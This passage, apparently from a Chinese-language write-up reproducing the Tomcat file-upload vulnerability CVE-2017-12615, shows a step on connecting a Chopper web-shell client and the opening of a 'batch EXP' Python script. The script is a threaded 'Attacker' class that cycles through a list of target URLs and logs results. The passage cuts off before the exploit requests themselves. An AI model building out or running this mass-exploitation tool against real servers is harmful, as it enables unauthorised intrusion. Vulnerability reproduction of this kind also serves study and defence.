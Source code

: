 - ### 0x04 菜刀连接

![img](Tomcat文件上传-CVE-2017-12615-复现/ScreenShot04.png)


## 批量EXP脚本
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import argparse
import requests
import sys
import time
import threading
import queue
import re
from lxml import html

class Attacker(object):
    def __init__(self,urlList,threads,output):
        self.urlList=urlList
        self.threads=threads
        self.optput=output
        self.print_lock=threading.Lock()
        self.savaFile_lock=threading.Lock()

    def run_thread(self):
        thread_arr=[]
        for i in range(self.threads):
            t=threading.Thread(target=self.attack)
            thread_arr.append(t)
        for i in range(self.threads):
            thread_arr[i].start()
        for i in range(self.threads):
            thread_arr[i].join()
    def saveResultToFile(self,message):
        if self.optput is not None:
            with open(self.optput, 'a+', encoding = 'utf8') as f:  # 以追加的方法结果写入文件
                f.write(message[0]+"\t")
                f.write(message[1]+"\n")
```